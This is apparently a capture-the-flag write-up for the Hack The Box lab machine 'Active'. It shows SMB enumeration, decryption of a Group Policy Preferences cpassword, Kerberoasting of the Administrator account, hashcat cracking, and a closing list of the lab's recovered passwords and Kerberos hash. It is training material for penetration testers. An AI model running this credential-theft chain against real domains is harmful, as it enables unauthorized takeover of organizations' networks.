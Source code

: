 # Given

> Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

## IP

10.10.10.100

# Steps

## Enumeration

I started off with `rustscan` to see what ports are open, and this gave me a decent idea of what services were running on this machine.

```bash
PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 64
88/tcp    open  kerberos-sec   syn-ack ttl 64
135/tcp   open  msrpc          syn-ack ttl 64
139/tcp   open  netbios-ssn    syn-ack ttl 64
389/tcp   open  ldap           syn-ack ttl 64
445/tcp   open  microsoft-ds   syn-ack ttl 64
464/tcp   open  kpasswd5       syn-ack ttl 64
593/tcp   open  http-rpc-epmap syn-ack ttl 64
636/tcp   open  ldapssl        syn-ack ttl 64
5722/tcp  open  msdfsr         syn-ack ttl 64
9389/tcp  open  adws           syn-ack ttl 64
49152/tcp open  unknown        syn-ack ttl 64
49153/tcp open  unknown        syn-ack ttl 64
49154/tcp open  unknown        syn-ack ttl 64
49155/tcp open  unknown        syn-ack ttl 64
49157/tcp open  unknown        syn-ack ttl 64
49158/tcp open  unknown        syn-ack ttl 64
49165/tcp open  unknown        syn-ack ttl 64
49166/tcp open  unknown        syn-ack ttl 64
49168/tcp open  unknown        syn-ack ttl 64
```

The `nmap` scan I had running in the background gave me some version info, filled in the blanks on some of the 'unknown' services.

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-20 03:21:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Some key points about this machine are

- Target is running Windows Server 2008 R2 SP1
- Services running:
	- DNS (53)
	- Kerberos (88)
	- RPC (135)
	- SMB (139, 445)
	- LDAP (389, 3268)
	- HTTP (47001)
- Hostname is DC so this is possibly the Domain Controller.

SMB is the easiest one to test without credentials, so I checked for anonymous user access with `netexec`.

![](Assets/Pasted%20image%2020250720120505.png)

From that I saw a total of 7 shares, and 'Replication' could be read with out level of access. There were some things inside it, so I used netexec to download everything inside the share.

```bash
nxc smb 10.10.10.100 -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
```

I Managed to get 2 folders with some policy info, which made me think of Group Policy Preferences. 

![](Assets/Pasted%20image%2020250720122804.png)

## Cracking GPP

**GPP TLDR** 
Group Policy Preferences are config settings that domain admins can enforce on local admins/users across a domain. 
When a new Group Policy Preference (GPP) is created, an xml file is stored on the SYSVOL with its config data. However the password in that xml file (cpassword) is encrypted with MS AES. Not that cracking it is a problem after MS published the key. 

I looked at the `Groups.xml` file, and managed to get some creds that could be of use.

![](Assets/Pasted%20image%2020250720122548.png)

Since I knew we were dealing with a GPP hash, I used `gpp-decrypt` to crack the hash, and I ended up with the password to the user account `SVC_TGS`.

![](Assets/Pasted%20image%2020250720133446.png)

I got excited about this, and kept trying to get a shell into the system here. But things didn't work out. After a while, I went back to looking at what this account could access. SMB.

This time I could read more shares. I decided to look at the Users share first. That got me to this user's Desktop, where I found the user flag.

![](Assets/Pasted%20image%2020250720144629.png)

## Getting Admin

Since this is an AD environment, I cold check for kerberoastable accounts using `impacket-GetUserSPNs`. Alternatively I could use `netexec` to try and grab a kerberos hash from a roastable account. However, there's the clock skew to deal with here, and that could easily be countered with faketime in case ntpdate doesn't work.

I found out that the Administrator account was kerberoastable, and then I got the kerberos hash from it.

![](Assets/Pasted%20image%2020250720151013.png)

The next step when I had a hash on hand was to identify it. I decided to use hashcat, because I needed to get the correct mode for the job.

![](Assets/Pasted%20image%2020250720152019.png)

Ran`hashcat -m 13100 -a 0 -o admin.cracked.txt loot/admin.krb.hash /usr/share/wordlists/rockyou.txt`, which got me the Admin password.

![](Assets/Pasted%20image%2020250720152611.png)

Tested it out with smb, and it works. I can log in as Administrator.

![](Assets/Pasted%20image%2020250720153216.png)

Just like the last time, I used `smbclient` to interact with the SMB service. This time as the Administrator. The root flag was on the desktop.

```bash
┌──(root㉿docker-desktop)-[/host_data]
└─# smbclient \\\\10.10.10.100\\Users -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 14:39:20 2018
  ..                                 DR        0  Sat Jul 21 14:39:20 2018
  Administrator                       D        0  Mon Jul 16 10:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 05:06:44 2009
  Default                           DHR        0  Tue Jul 14 06:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 05:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 04:57:55 2009
  Public                             DR        0  Tue Jul 14 04:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 15:16:32 2018

5217023 blocks of size 4096. 278484 blocks available
```

# Creds

**Groups.xml**
`SVC_TGS : edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ : GPPstillStandingStrong2k18`

**Administrator kerberos hash**

```bash
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb\Administrator*$0a8b0f16cbd7dacd1dca8c5688e5b5be$71d27a8950563cd5a294b87ba1b6591c0afd5c
486a740fd3cad3892497312e7349693778bcd6b7d9a7c13cde751e07fc8917ab2e9acf0f2da90c6416f000f89475ba08a90c8604dae7f57bd8215275a5d76f185379dfb34b4189ae5cb8c96f870aef1679432bcf81cbfad9bc0ece74a07
f77461b94e254bb2c71d616bfa07cf4e59a8a04516e4c764fbfce60b13d6d9de36eee57805bfbb7cc0d9a291da54b02cbb6b4d4c1902b0d7418c44dc5559d927c25307850f91f1585a77befb2b06c7d654d5b19f61c491d64c037cd5e02
c404764e10f0f22d2b11f9952fee4f6263ea11b9c5a89b0051beba5ff69c2ae0eb215419f96a6b9440ebdfae217a8ca3373560ae639950c426323e642a39bacefb97f3733c26dedeb2ffb3d880d528aaca99b21094cd5847a6c72b85e95
6dcc04a1331f83cf0999b89ea804a8fe7caa0a34c2dd346aa266d63f48eb837d454609610643d76b6c9ad779f549fea08c16ba7f10d5a1a20389c836589403e5dcef09a0cd99cfaf62cb121962de037e535cc34ba9fd792d9e890b80db9
a733df10eb1f8265fb296caa57e971cf092fdf02bba7f90007e21d33f191429cac49fae1e43047505cfdd220da0698a42a531266400985f4d90543c1eec0ddd627f27425a40cfbba1633858e62b81260622c458c103a5fdcd78977f998f
7bca04cb7c1974505a17bf43b995658f22537061567e46c9d5b3e0234ae56bb55b7f89ca29fb11acdb15379315fff69f97dc2e479d77927c81403aa6080b261f60da4bca52bd60de56fe53a78a87f5c8306f26cda40dafbd01249433724
d1b496912f3ec47927b7c7af5bb6160b12483de4829c8d0dfc264d77a64d3ce6d2fe671866d8132058f3c8d2988c795936c27b839db7de3deae1ccfd917b6561e3d1be725e69d82afc631ae00661c9d3fbf9e8bcfa114d0634341e56cd0
f9ae1cb9a9479b742eb9309329e7ce0df037aca180be9498e367f6426a2f9143e9bf5c2d6572af2a6b1d4dc42c87d502927df97f4ef6c3d2a98327b3b124436ddb88d1db8c9c2ebcddc75444915f2d4a5c7b09dd779f09a32952b25702c
05db14ff79ac4ea6801a55243902b4789bd8d92bfb7a40732c9845865f13159ba1aa01d0dc7c2e05756b19e481897cc7ae77bec45cbd7d7795e4c55f22d53a972e80d92f02e60e72771bd492e67beaadf4d12b5c26acc4099e58dd598ff
4a0005fea8668e658ef4883345458ee433a69b8746a96216cc490ef3626
```

**Administrator Password**
`Ticketmaster1968`

# Proof

![](Assets/Pasted%20image%2020250720144918.png)

![](Assets/Pasted%20image%2020250720153541.png)

# References

https://pentestlab.blog/2017/03/20/group-policy-preferences/

https://www.thehacker.recipes/ad/movement/credentials/dumping/group-policies-preferences